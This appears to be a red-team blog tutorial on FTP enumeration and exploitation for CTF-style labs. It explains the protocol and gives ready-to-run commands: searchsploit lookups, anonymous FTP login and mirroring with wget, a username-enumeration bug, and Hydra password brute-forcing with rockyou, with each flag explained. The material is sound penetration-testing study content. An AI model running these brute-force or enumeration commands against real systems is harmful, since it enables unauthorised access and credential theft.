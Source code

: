 ```yaml
---
layout: single
title: FTP Enumeration & Exploiting
excerpt: "File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way."
date: 2021-08-31
classes: wide
categories:
  - Red Team
  - infosec
tags:
  - Red Team

---
```


## Searchsploit tricks

```
searchsploit <service version> #Example
searchsploit apache mod_ssl #Other example
searchsploit -m 7618 #Paste the exploit in current directory
searchsploit -p 7618[.c] #Show complete path
searchsploit -x 7618[.c] #Open vi to inspect the exploit
searchsploit --nmap file.xml #Search vulns inside an nmap xml result
```

# What is FTP?

- File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

## How does FTP work?

- A typical FTP session operates using two channels:
a command (sometimes called the control) channel
a data channel.
As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

- FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session. While the session is open, the client may execute FTP commands on the server.

## Active vs Passive

- The FTP server may support either Active or Passive connections, or both. 

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 
- This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.
More Details:

- You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: https://www.ietf.org/rfc/rfc959.txt. The IETF is one of a number of standards agencies, who define and regulate internet standards.

# Enumeration
```
ls /usr/share/nmap/scripts/ftp*
Nos conectamos con: ftp <ip>
Podemos subir archivos con: put fun.py
A veces es necesario entrar en modo pasivo con: pass
Luego un simple: enter
ftp://anonymous:anonymous@target
telnet 10.10.27.148 21
nc -v 10.10.27.148

Comandos para descargar archivos de ftp.
wget -m ftp://anonymous:anonymous@target
wget -m --no-pasive ftp://anonymous:anonymous@target

Brute Force

hydra -t 4 -l username -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V

![652502879b8f94eef10ba9946bd15dd2.png](:/7dd98b7d1b4d421596ce2ff247867d95)

Examine Files
ftpusers
ftp.conf
proftpd.conf
```


## Method

We're going to be exploiting an anonymous FTP login, to see what files we can access- and if they contain any information that might allow us to pop a shell on the system. This is a common pathway in CTF challenges, and mimics a real-life careless implementation of FTP servers.

## Resources

As we're going to be logging in to an FTP server, we're going to need to make sure therre is an ftp client installed on the system. There should be one installed by default on most Linux operating systems, such as Kali or Parrot OS. You can test if there is one by typing "ftp" into the console. If you're bought to a prompt that says: "ftp>" Then you have a working FTP client on your system. If not, it's a simple matter of using "sudo apt install ftp" to install one.

## Alternative Enumeration Methods

It's worth noting  that some vulnerable versions of in.ftpd and some other FTP server variants return different responses to the "cwd" command for home directories which exist and those that don’t. This can be exploited because you can issue cwd commands before authentication, and if there's a home directory- there is more than likely a user account to go with it. While this bug is found mainly within legacy systems, it's worth knowing about, as a way to exploit FTP.

This vulnerability is documented at: https://www.exploit-db.com/exploits/20745 


# Types of FTP Exploit

Similarly to Telnet, when using FTP both the command and data channels are unencrypted. Any data sent over these channels can be intercepted and read.

With data from FTP being sent in plaintext, if a man-in-the-middle attack took place an attacker could reveal anything sent through this protocol (such as passwords). An article written by JSCape https://www.jscape.com/blog/bid/91906/Countering-Packet-Sniffers-Using-Encrypted-FTP  demonstrates and explains this process using APR-Poisoning to trick a victim into sending sensitive information to an attacker, rather than a legitimate source.

When looking at an FTP server from the position we find ourselves in for this machine, an avenue we can exploit is weak or default password configurations.

Method Breakdown

So, from our enumeration stage, we know:

    - There is an FTP server running on this machine

    - We have a possible username

Using this information, let's try and bruteforce the password of the FTP Server.

## Hydra

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.
The syntax for the command we're going to use to find the passwords is this:

```
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```
Let's break it down:

SECTION             FUNCTION

hydra                   Runs the hydra tool

-t 4                    Number of parallel connections per target

-l [user]               Points to the user who's account you're trying to compromise

-P [path to dictionary] Points to the file containing the list of possible passwords

-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt

[machine IP]            The IP address of the target machine

ftp / protocol          Sets the protocol

